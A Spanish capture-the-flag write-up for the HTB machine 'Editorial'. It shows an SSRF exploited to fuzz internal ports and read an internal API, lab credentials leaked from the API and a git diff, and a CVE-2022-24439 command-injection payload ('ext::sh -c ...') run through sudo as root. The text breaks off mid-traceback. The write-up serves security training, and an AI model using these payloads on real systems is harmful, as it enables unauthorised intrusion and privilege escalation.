


# Editorial

`Editorial` es una máquina Linux de dificultad fácil que cuenta con una aplicación web de publicación vulnerable a `Server-Side Request Forgery (SSRF)`. Esta vulnerabilidad se aprovecha para obtener acceso a una API interna en ejecución, que luego se aprovecha para obtener credenciales que conducen al acceso `SSH` a la máquina. Al enumerar el sistema, se revela además un repositorio Git que se aprovecha para revelar las credenciales de un nuevo usuario. El usuario `root` se puede obtener explotando [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439) y la configuración sudo.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`Editorial`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.20 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-21 15:58 CET
Initiating SYN Stealth Scan at 15:58
Scanning 10.10.11.20 [65535 ports]
Discovered open port 80/tcp on 10.10.11.20
Discovered open port 22/tcp on 10.10.11.20
Completed SYN Stealth Scan at 15:59, 33.46s elapsed (65535 total ports)
Nmap scan report for 10.10.11.20
Host is up, received user-set (0.21s latency).
Scanned at 2025-02-21 15:58:53 CET for 34s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 33.63 seconds
           Raw packets sent: 76684 (3.374MB) | Rcvd: 76462 (3.059MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.20
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx`.

```bash
❯ nmap -sCV -p22,80 10.10.11.20 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-21 16:04 CET
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   312.88 ms 10.10.16.1
2   117.62 ms editorial.htb (10.10.11.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.95 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada correspondiente.

```bash
❯ cat /etc/hosts | grep editorial
10.10.11.20 editorial.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://editorial.htb
http://editorial.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.20], Title[Editorial Tiempo Arriba], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Accederemos a [http://editorial.htb](http://editorial.htb) y nos encontramos con la siguiente página web. Al parecer, se trata de una página de libros.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de páginas y directorios de la aplicación web, en el cual se nos muestra el siguiente resultado obtenido.

```bash
❯ feroxbuster -u http://editorial.htb/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://editorial.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       72l      232w     2939c http://editorial.htb/about
200      GET      210l      537w     7140c http://editorial.htb/upload
302      GET        5l       22w      201c http://editorial.htb/upload-cover => http://editorial.htb/upload
200      GET       81l      467w    28535c http://editorial.htb/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
200      GET        7l     2189w   194901c http://editorial.htb/static/css/bootstrap.min.css
200      GET     4780l    27457w  2300540c http://editorial.htb/static/images/pexels-min-an-694740.jpg
200      GET      177l      589w     8577c http://editorial.htb/
200      GET    10938l    65137w  4902042c http://editorial.htb/static/images/pexels-janko-ferlic-590493.jpg
[####################] - 30s    30015/30015   0s      found:8       errors:0      
[####################] - 30s    30002/30002   1010/s  http://editorial.htb/       
```


## Initial Access

### Server Side Request Forgery (SSRF) Exploitation + Internal Port Discovery

Al acceder a [http://editorial.htb/upload](http://editorial.htb/upload) nos encontramos con la siguiente página web en la cual al parecer nos permite subir nuestro propio libro para que la editorial nos lo revise.

Entre los campos que nos permite añadir o modificar, se nos indica que podemos añadir una URL de nuestra cover de nuestro libro, subir el libro y añadir la descripción correspondiente.

<figure><figcaption></figcaption></figure>

Lo primero se nos ocurre es en probar si la URL que podemos indicar, puede ser la de nuestro servidor web que nos montaremos a continuación. Por ello, nos levantamos a través de python un servidor web.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ingresamos nuestra URL de nuestro servidor web que apunte a un recurso (inexistente) y al darle a la opción de `Send book info` no obtenemos resultado ninguno en nuestro servidor web.

<figure><figcaption></figcaption></figure>

Probamos de darle a la opción de `Preview` para verificar si a través de esta opción recibíamos algún tipo de solicitud en nuestro servidor web.

<figure><figcaption></figcaption></figure>

Comprobamos en nuestro servidor web que se ha recibido correctamente la solicitud por el método `GET` a nuestro servidor web a través de la dirección IP del servidor víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.20 - - [21/Feb/2025 16:27:21] code 404, message File not found
10.10.11.20 - - [21/Feb/2025 16:27:21] "GET /gzzcoo HTTP/1.1" 404 -
```

Teniendo esto en cuenta, se nos pueden ocurrir probar diferentes tipos de ataque, como por ejemplo, un `Server-Side Request Forgery (SSRF)`.

Para ello, primero interceptaremos la solicitud a través de `BurpSuite` al darle a la opcioón de `Preview` y modificaremos la URL para que apunte a un servidor web interno por el puerto 80. En la respuesta por parte del servidor, se nos proporciona un resultado, pudiendo confirmar la existencia de un posible `SSRF`.


El **Server-Side Request Forgery** (**SSRF**) es una vulnerabilidad de seguridad en la que un atacante puede forzar a un servidor web para que realice solicitudes HTTP en su nombre.

En un ataque de SSRF, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para enviar una solicitud HTTP a un servidor web. El atacante manipula la solicitud para que se dirija a un servidor vulnerable o a una red interna a la que el servidor web tiene acceso.

El ataque de SSRF puede permitir al atacante acceder a información confidencial, como contraseñas, claves de API y otros datos sensibles, y también puede llegar a permitir al atacante (en función del escenario) ejecutar comandos en el servidor web o en otros servidores en la red interna.

Una de las **diferencias** clave entre el **SSRF** y el **CSRF** es que el SSRF se ejecuta en el servidor web en lugar del navegador del usuario. El atacante **no necesita engañar a un usuario legítimo** para hacer clic en un enlace malicioso, ya que puede enviar la solicitud HTTP directamente al servidor web desde una fuente externa.


<figure><figcaption></figcaption></figure>

Para realizar un escaneo de posibles puertos internos abiertos que pudieran haber en la máquina víctima, haremos uso de la herramienta de `ffuf`para realizar `fuzzing`.

Para ello, nos guardaremos el contenido de la petición que se tramita por `POST` en `BurpSuite` e indicaremos donde queremos que se aplique el `fuzzing`, en este caso, en donde hemos indicado la palabra `FUZZ`.


```bash
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3354742931632117974366790258
Content-Length: 356
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------3354742931632117974366790258
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------3354742931632117974366790258
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------3354742931632117974366790258--
```


Realizaremos el `fuzzing` a través de `ffuf` sobre la URL indicada pasándole nuestro archivo de la petición que disponemos para que realice el `fuzzing` e indicaremos también que realice una secuencia entre el 0 y 65365 que son el nº de puertos existentes.

En el resultado obtenido, comprobamos que nos aparece que ha encontrado el puerto `5000`.

```bash
❯ ffuf -u http://editorial.htb/upload-cover -request request -w <( seq 0 65535) -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /proc/self/fd/15
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Host: editorial.htb
 :: Header           : Accept: */*
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------3354742931632117974366790258
 :: Header           : Origin: http://editorial.htb
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Priority: u=0
 :: Data             : -----------------------------3354742931632117974366790258
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------3354742931632117974366790258
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------3354742931632117974366790258--
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 87ms]
```

Al revisar manualmente con `BurpSuite` sobre el `SSRF` sobre la dirección [http://127.0.0.1:5000](http://127.0.0.1:5000), también nos devuelve una información.

<figure><figcaption></figcaption></figure>

### API Enumeration trough SSRF

Realizaremos un `cURL` sobre el resultado anteriormente obtenido. En el resultado que se nos muestra, nos aparece la existencia de una `API` con diferentes `endpoints`.

```bash
❯ curl -s 'http://editorial.htb/static/uploads/45dcd0c6-2ec4-4305-a9d8-d507844a6ed2' | jq .
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Realizaremos una enumeración a través del `SSRF` en combinación con la `API` para comprobar los diferentes endpoints.

En este caso, el endpoint que probamos es `/api/latest/metadata/messages/authors` que según comprobamos anteriormente, se almacenan los mensajes enviados a los nuevos autores. En el resultado obtenido en la respuesta del servidor, obtenemos el siguiente resultado.

<figure><figcaption></figcaption></figure>

Realizamos un `cURL` sobre el resultado obtenido en la respuesta por parte del servidor y comprobamos el siguiente contenido. En el resultado obtenido se comprueba que se nos proporcionan credenciales de acceso al sistema.

```bash
❯ curl -s 'http://editorial.htb/static/uploads/5e9d4edf-c293-476e-a7cf-35f544a4f82b' | jq .
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Probamos de autenticarnos con estas credenciales obtenidas al equipo a través de `SSH`y logramos obtener acceso. Por otro lado, también conseguimos obtener la flag de **user.txt**.

```bash
❯ sshpass -p 'dev080217_devAPI!@' ssh dev@10.10.11.20
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ cat user.txt 
ca92c***************************
```

## Pivoting to user prod

### Private Github Project Enumeration + Information Leakage

Revisamos si el usuario **`dev`** disponía de algún permiso de `sudoers`, pero no era el caso, y tampoco formaba parte de ningún grupo interesante. Por otro lado, también comprobamos los usuarios que disponían de una `bash`, entre los que encontramos que existía un usuario llamado **`prod`**, con lo cual nos hizo pensar que quizás antes de realizar la escalada al usuario **`root`**, debíamos pivotar al usuario **`prod`**.

```bash
dev@editorial:~$ sudo -l
[sudo] password for dev: 
sudo: a password is required

dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)

dev@editorial:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

Por lo tanto, decidimos realizar una enumeración más exhausta del sistema, explorando archivos, directorios, etc.

Enumerando el directorio `/opt/internal_apps` nos encontramos con diferentes directorios entre los cuales con el usuario **`dev`** no disponíamos del acceso.

```bash
dev@editorial:/opt/internal_apps$ ls -l
total 12
drwxr-xr-x 3 root     root     4096 Jun  5  2024 app_api
drwxr-x--- 2 root     prod     4096 Jun  5  2024 clone_changes
drwxr-xr-x 2 www-data www-data 4096 Jun  5  2024 environment_scripts

dev@editorial:/opt/internal_apps$ ls -l app_api/
total 16
-rw-r--r-- 1 root root 5273 Jan 16  2024 app.py
drwxr-xr-x 2 root root 4096 Jun  5  2024 __pycache__
-rwxr-xr-x 1 root root   62 Feb  4  2023 wsgi.py

dev@editorial:/opt/internal_apps$ ls -l clone_changes/
ls: cannot open directory 'clone_changes/': Permission denied

dev@editorial:/opt/internal_apps$ ls -l environment_scripts/
total 4
-rw-r--r-- 1 www-data www-data 89 Feb  2  2023 clear.sh
```

Realizando una enumeración en el directorio `/home/dev/apps` nos encontramos con un directorio privado de `.git` en el cual al realizar un `git status` se nos mostró el siguiente resultado.

```bash
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5  2024 .
drwxr-x--- 4 dev dev 4096 Feb 21 15:54 ..
drwxr-xr-x 8 dev dev 4096 Jun  5  2024 .git

dev@editorial:~/apps$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    app_api/app.py
	deleted:    app_editorial/app.py
	deleted:    app_editorial/static/css/bootstrap-grid.css
	deleted:    app_editorial/static/css/bootstrap-grid.css.map
	deleted:    app_editorial/static/css/bootstrap-grid.min.css
	deleted:    app_editorial/static/css/bootstrap-grid.min.css.map
	deleted:    app_editorial/static/css/bootstrap-grid.rtl.css
	deleted:    app_editorial/static/css/bootstrap-grid.rtl.css.map
	deleted:    app_editorial/static/css/bootstrap-grid.rtl.min.css
	deleted:    app_editorial/static/css/bootstrap-grid.rtl.min.css.map
	deleted:    app_editorial/static/css/bootstrap-reboot.css
	deleted:    app_editorial/static/css/bootstrap-reboot.css.map
	deleted:    app_editorial/static/css/bootstrap-reboot.min.css
	deleted:    app_editorial/static/css/bootstrap-reboot.min.css.map
	deleted:    app_editorial/static/css/bootstrap-reboot.rtl.css
	deleted:    app_editorial/static/css/bootstrap-reboot.rtl.css.map
	deleted:    app_editorial/static/css/bootstrap-reboot.rtl.min.css
	deleted:    app_editorial/static/css/bootstrap-reboot.rtl.min.css.map
	deleted:    app_editorial/static/css/bootstrap-utilities.css
	deleted:    app_editorial/static/css/bootstrap-utilities.css.map
	deleted:    app_editorial/static/css/bootstrap-utilities.min.css
	deleted:    app_editorial/static/css/bootstrap-utilities.min.css.map
	deleted:    app_editorial/static/css/bootstrap-utilities.rtl.css
	deleted:    app_editorial/static/css/bootstrap-utilities.rtl.css.map
	deleted:    app_editorial/static/css/bootstrap-utilities.rtl.min.css
	deleted:    app_editorial/static/css/bootstrap-utilities.rtl.min.css.map
	deleted:    app_editorial/static/css/bootstrap.css
	deleted:    app_editorial/static/css/bootstrap.css.map
	deleted:    app_editorial/static/css/bootstrap.min.css
	deleted:    app_editorial/static/css/bootstrap.min.css.map
	deleted:    app_editorial/static/css/bootstrap.rtl.css
	deleted:    app_editorial/static/css/bootstrap.rtl.css.map
	deleted:    app_editorial/static/css/bootstrap.rtl.min.css
	deleted:    app_editorial/static/css/bootstrap.rtl.min.css.map
	deleted:    app_editorial/static/images/login-background.jpg
	deleted:    app_editorial/static/images/pexels-janko-ferlic-590493.jpg
	deleted:    app_editorial/static/images/pexels-min-an-694740.jpg
	deleted:    app_editorial/static/js/bootstrap.bundle.js
	deleted:    app_editorial/static/js/bootstrap.bundle.js.map
	deleted:    app_editorial/static/js/bootstrap.bundle.min.js
	deleted:    app_editorial/static/js/bootstrap.bundle.min.js.map
	deleted:    app_editorial/static/js/bootstrap.esm.js
	deleted:    app_editorial/static/js/bootstrap.esm.js.map
	deleted:    app_editorial/static/js/bootstrap.esm.min.js
	deleted:    app_editorial/static/js/bootstrap.esm.min.js.map
	deleted:    app_editorial/static/js/bootstrap.js
	deleted:    app_editorial/static/js/bootstrap.js.map
	deleted:    app_editorial/static/js/bootstrap.min.js
	deleted:    app_editorial/static/js/bootstrap.min.js.map
	deleted:    app_editorial/templates/about.html
	deleted:    app_editorial/templates/index.html
	deleted:    app_editorial/templates/upload.html

no changes added to commit (use "git add" and/or "git commit -a")
```

A través del comando `git log`, revisaremos los logs de los diferentes `commit` que se han ido realizando.

```bash
dev@editorial:~/apps/.git$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

Para obtener la misma información, pero más resumida en una única línea, haremos uso del siguiente comando.

```bash
dev@editorial:~/apps/.git$ git log --oneline
8ad0f31 (HEAD -> master) fix: bugfix in api port endpoint
dfef9f2 change: remove debug and update api port
b73481b change(api): downgrading prod to dev
1e84a03 feat: create api to editorial info
3251ec9 feat: create editorial app
```

Mediante el comando de `git diff` comprobaremos diferencias entre los diferentes `commits` que existen. En la compración entre los siguientes `commits`, comprobamos que aparecen las credenciales del usuario **`dev`** y el usuario **`prod`**.

```bash
dev@editorial:~/apps/.git$ git diff b73481b 1e84a03
diff --git a/app_api/app.py b/app_api/app.py
index 3373b14..61b786f 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

Verificamos si las credenciales del usuario **`prod`** son válidas para autenticarse al `SSH`del equipo víctima. Finalmente comprobamos el acceso al sistema con el usuario **`prod`** logrando correctamente realizar el pivoting.

```bash
❯ sshpass -p '080217_Producti0n_2023!@' ssh prod@10.10.11.20
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


prod@editorial:~$ 
```

## Privilege Escalation

### Abusing sudoers privilege

Revisando los permisos de `sudoers` para comprobar si el usuario **`prod`** disponía de alguno, nos encontramos con el siguiente resultado. Al parecer, podemos ejecutar como el usuario **`root`** un script de Python3 ubicado en `/opt/internal_apps/clone_changes/clone_prod_change.py`.

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

El script `clone_prod_change.py` está escrito en Python y utiliza la librería `GitPython` para clonar un repositorio desde una URL proporcionada como argumento. A continuación, desglosamos su funcionamiento:

1. **Importación de módulos**: Se importan las librerías `os`, `sys` y `git` (de `GitPython`), lo que indica que el script interactúa con Git y el sistema de archivos.
2. **Cambio de directorio**: Se cambia el directorio de trabajo a `/opt/internal_apps/clone_changes`, lo que sugiere que todas las operaciones se realizarán en esta ruta.
3. **Obtención de la URL**: El script toma la URL del repositorio que se quiere clonar desde el primer argumento de la línea de comandos (`sys.argv[1]`).
4. **Inicialización del repositorio**: Se crea un repositorio vacío (`bare=True`) en el directorio actual usando `Repo.init()`.
5. **Clonación del repositorio**: Se clona el repositorio especificado en la carpeta `new_changes` mediante `r.clone_from()`, con la opción `-c protocol.ext.allow=always`, lo que permite protocolos de transporte personalizados en Git.

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

### GitPython 3.1.29 Exploitation - Remote Code Execution \[RCE] (CVE-2022-24439)

Revisamos la versión exacta de la libreria de `gitpython` que se está utilizando en el script y nos encontramos con la versión `3.1.29`.

```bash
prod@editorial:~$ pip show gitpython
Name: GitPython
Version: 3.1.29
Summary: GitPython is a python library used to interact with Git repositories
Home-page: https://github.com/gitpython-developers/GitPython
Author: Sebastian Thiel, Michael Trier
Author-email: byronimo@gmail.com, mtrier@gmail.com
License: BSD
Location: /usr/local/lib/python3.10/dist-packages
Requires: gitdb
Required-by: 
```

Realizando una búsqueda por Internet, nos encontramos con la siguiente vulnerabilidad de `GitPython 3.1.29` reportada como `CVE-2022-24439`.

<figure><figcaption></figcaption></figure>




Todas las versiones del paquete gitpython son vulnerables a la ejecución remota de código (RCE) debido a una validación incorrecta de la entrada del usuario, lo que hace posible inyectar una URL remota creada con fines malintencionados en el comando de clonación. Es posible explotar esta vulnerabilidad porque la librería realiza llamadas externas a git sin una sanitización suficiente de los argumentos de entrada.


Por otro lado, nos encontramos con el siguiente blog el cual nos muestran cómo poder realizar la explotación correctamente. En nuestra primera prueba, lo que realizamos es realizar la ejecución del script como `sudo` y le indicamos `'ext::sh -c touch% /tmp/pwned'` que sería la inyección a realizar. En este caso, al realizar la ejecución del script con el payload malicioso, se comprueba que se ha creado correctamente el archivo `/tmp/pwned` y el propietario es `root`. Con lo cual, hemos confirmado la existencia de un `Remote Code Execution` que es ejecutado con el usuario `root`.



```bash
rod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
